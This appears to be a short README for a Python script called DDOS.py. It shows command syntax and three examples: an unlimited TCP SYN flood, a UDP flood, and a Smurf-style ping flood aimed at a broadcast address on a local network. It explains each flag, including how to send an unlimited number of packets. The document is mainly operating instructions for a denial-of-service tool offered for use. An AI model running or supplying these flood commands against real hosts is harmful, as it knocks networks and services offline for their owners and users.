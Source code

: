 # Syntax to Execute the DDOS Script

Example 1 : Execute  a TCP SYN attack
      
      python DDOS.py -toa tcp -fl syn -c X -d 192.168.1.9
      
      -toa : Type of attack you want to perform (TCP,UDP,etc.)
      -fl  : What kind of attack in the above mentioned type (Syn flood, Reset flood , Ack flood, etc.)
      -c   : How many number of packets you want to push on the network while executing this script('X' denotes infinte number of packets)
      -d   : Destination network IP address
      
Example 2 : Execute UDP flood attack. Push 10 packets to destination.

      python DDOS.py -toa udpflood -c 10 -d 192.168.1.9
   
Example 3 : Execute a Smurf attack

      python DDOS.py -toa ping -fl pod -c X -d 192.168.1.15

In my case 192.168.1.15 is the broadcast address.


For help : python DDOS.py --help
